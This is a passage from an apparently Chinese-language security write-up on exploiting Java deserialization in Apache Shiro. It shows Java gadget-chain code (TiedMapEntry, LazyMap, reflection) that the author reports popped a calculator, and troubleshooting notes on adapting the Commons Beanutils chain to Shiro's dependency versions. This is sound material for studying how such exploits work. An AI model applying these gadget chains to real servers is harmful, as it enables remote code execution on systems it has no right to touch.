 ```java
        //断掉利用链 TiedMapEntry, LazyMap, ChainedTransformer都可以
        //举个例子修改tiedMapEntry的 key
        
        TiedMapEntry tiedMapEntry = new TiedMapEntry(new HashMap(), templates);//修改传值最后调用是invokerTransformer.transform(templates)  --> templates.newTransformer

        HashMap<Object, Object> hashMap = new HashMap<>();

        hashMap.put(tiedMapEntry, 1);

        //复原
        //因为key为private，而且也没有public方法能直接修改key
        //利用反射
        Class c = TiedMapEntry.class;
        Field key = c.getDeclaredField("map");
        key.setAccessible(true);
        key.set(tiedMapEntry, lazyMap);

        //cc1_poc.serialize(hashMap);
        cc1_poc.unserialize("s.ser");
    }
}
```

再打一次，成功弹出计算器





## CB链

CB链之前讲过

用python脚本生成下payload，发包发现命令没有执行

![image-20240711103302273](https://s2.loli.net/2024/07/11/wK8e6EI2MDoVizG.png)

debug看一下

### BeanComparator报错

![image-20240711104300801](https://s2.loli.net/2024/07/11/4nIoCUQq65amjpk.png)

发现是加载BeanComparator失败,这是因为shiro的CB依赖版本问题，我用CB链的是1.9.4，而shiro用的是1.8.3。修改一下CB链版本再试一次。

### ComparableComparator报错

```java
public BeanComparator( final String property ) {           //我们调用的是这个构造函数，可以按到构造函数中用到了CC库的ComparableComparator，所以报错了
    this( property, ComparableComparator.getInstance() );
}

public BeanComparator( final String property, final Comparator<?> comparator ) { //解决这个问题，我们就用两个参数的这个构造函数，传进去一个shiro依赖中有的Comparator就好了
    setProperty( property );
    if (comparator != null) {
        this.comparator = comparator;
    } else {
        this.comparator = ComparableComparator.getInstance();
    }
}
```
